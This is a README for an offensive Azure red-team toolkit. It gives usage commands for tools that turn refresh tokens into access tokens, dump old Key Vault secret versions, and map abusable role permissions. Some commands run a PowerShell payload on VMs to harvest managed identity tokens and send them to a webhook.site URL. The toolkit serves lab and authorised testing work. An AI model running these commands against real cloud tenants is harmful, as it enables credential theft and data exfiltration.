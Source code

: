 # 🔓 azure-insecurity-tools

**A growing collection of offensive Azure tools and scripts** designed to support cloud red teaming, lab work, and deep exploration of Microsoft cloud internals.

---

## 📦 What's Inside

This repo will evolve as I learn more about attacking Azure. The focus is hands-on, practical tooling for real-world and lab scenarios.

### ✅ Initial Tool: `token_multiplexer.py`

Use a single `refresh_token` to mint multiple `access_token`s across different Azure resource scopes (Graph, Key Vault, ARM, etc).

#### Features
- Exchanges refresh tokens for any `.default` scoped resource
- Decodes JWT and extracts `aud`, `scp`, and `exp` claims
- Built as a CLI for flexible reuse
- Useful in phishing/OAuth abuse scenarios like AzRTE labs

#### Example Usage
```bash
python token_multiplexer.py \
  --refresh-token "<paste_here>" \
  --client-id "your-app-client-id" \
  --client-secret "your-app-client-secret" \
  --scope "https://vault.azure.net/.default"
```

### 🔑 kv-dump-old-versions.py — Enumerate and Dump Azure Key Vault Secret Versions

This script enumerates secrets in Azure Key Vaults and retrieves all available versions, including old values that might remain after rotation.

#### Features
- Works on a single vault or all vaults in a subscription.
- Dumps all secret versions with flags for which one is latest.
- Supports table view (human-friendly) and JSON output (machine-friendly).
- Flags old values that differ from the latest version.

#### Usage
```bash
# Enumerate all vaults in a subscription
python3 kv-dump-old-versions.py --subscription-id <subscription-id>

# Target a specific vault and output as JSON
python3 kv-dump-old-versions.py --vault kv-1-2e693029 --output json
```

### 🔢 kv-rsa-decrypt.py

Tries common RSA algorithms against a given Key Vault key ID. Uses `az` under the hood to leverage existing logon.

#### Usage
```bash
python3 kv-rsa-decrypt.py \
  --key-id "https://kv-2-xxxx.vault.azure.net/keys/key-2-xxxx/<version>" \
  --ciphertext-b64 "G067ensX6Zgz...=="  # full base64 blob

# or force a specific algo:
python3 kv-rsa-decrypt.py --key-id ... --ciphertext-b64 ... --algo RSA-OAEP
```

### 🗑️ kv-recover-deleted.py

List and recover deleted secrets for a vault.

#### Usage
```bash
python3 kv-recover-deleted.py --vault kv-3-2e693029
python3 kv-recover-deleted.py --vault kv-3-2e693029 --recover-all
```

### 🔍 role-attack-surf.py

- Lists your role assignments at a given scope (vault/RG/subscription)
- Pulls each role definition
- Flags interesting Actions/DataActions (stuff that tends to be abusable)
- Prints a summary + optional JSON
- Suggests quick exploits (e.g., `set-policy` when it sees `accessPolicies/write`)

#### Usage
```bash
# At a vault scope (like your lab)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>"

# Filter to your SP only (faster to read)
python3 role-attack-surf.py \
  --scope "/subscriptions/<sub>/resourceGroups/key-vault-labs/providers/Microsoft.KeyVault/vaults/<vault>" \
  --assignee <client_id>

# Dump full JSON too
python3 role-attack-surf.py --scope "/subscriptions/<sub>" --json
```

### ﹟psenc.py

Output PowerShell `-EncodedCommand` string given a file, command, or stdin.

#### Usage
```bash
# direct command
python3 psenc.py -c 'Write-Host "Hello from Mac!"' --print-example

# from a file
python3 psenc.py -f payload.ps1 > encoded.txt

# from stdin (handy in pipelines)
echo '$PSVersionTable.PSVersion' | python3 psenc.py --stdin
```

### 🕸️ cse_min.py

Trigger the Azure CustomScriptExtension on a Windows VM to run a PowerShell payload that collects Managed Identity tokens (ARM + Key Vault) and exfiltrates them to a specified webhook.

#### Usage
```bash
# basic usage (System-Assigned MI)
python3 cse_min.py -g <resource-group> -n <vm-name> -w https://webhook.site/<uuid>

# with User-Assigned Managed Identity client ID
python3 cse_min.py -g <resource-group> -n <vm-name> \
    -w https://webhook.site/<uuid> \
    --uami <user-assigned-mi-client-id>

# dry run (show PowerShell and encoded command without sending)
python3 cse_min.py -g <resource-group> -n <vm-name> -w <webhook-url> --show
```

**This will:**
1. Build the PowerShell payload to grab ARM + Key Vault access tokens via IMDS.
2. Encode it to UTF-16LE Base64 for `-EncodedCommand` execution.
3. Deploy it to the target VM via Azure CLI `az vm extension set` with `CustomScriptExtension`.
4. POST results to the given webhook.

### 📦 az-vars.sh

Extracts and exports key Azure resource identifiers and settings from JSON CLI output into shell variables for quick reuse in pentest or automation workflows.

#### Usage
```bash
# Pipe Azure CLI JSON output into script
az postgres flexible-server list -o json | bash az-vars.sh

# Or execute directly if marked executable
az postgres flexible-server list -o json | ./az-vars.sh
```

**This will:**
1. Parse JSON input from stdin (e.g., `az <resource> list -o json`).
2. Extract commonly used fields like `id`, `name`, `resourceGroup`, `location`, `fqdn`.
3. Export each as an environment variable (e.g., `$AZ_NAME`, `$AZ_RG`).
4. Print them in `VAR=value` form for quick copy/paste into other commands.

---

## 🛠 Additional Tools

### appservice-harvest

Deploy a custom container to Azure App Service to harvest Managed Identity tokens and optionally execute remote commands.

- Supports System-Assigned and User-Assigned MIs
- Collects ARM + Key Vault tokens
- Exfiltrates via a configurable webhook URL

**See:** [`appservice-harvest/README.md`](./appservice-harvest/README.md) for full details, setup, and usage instructions.

--- 

### 📄 task-kv.yaml

A simple ACR task template that leverages an MI's access to Key Vault to exfil secrets via echo into build logs

---

### 📩 servicebus_client.py

A simple Service Bus client that retrieves messages given a queue or topic/subscription and a primary key

---


⚠️ **Disclaimer**  
For educational and lab use only.  
Do not use these tools without explicit permission. They are intended to support self-hosted labs, CTF environments, and ethical security testing.
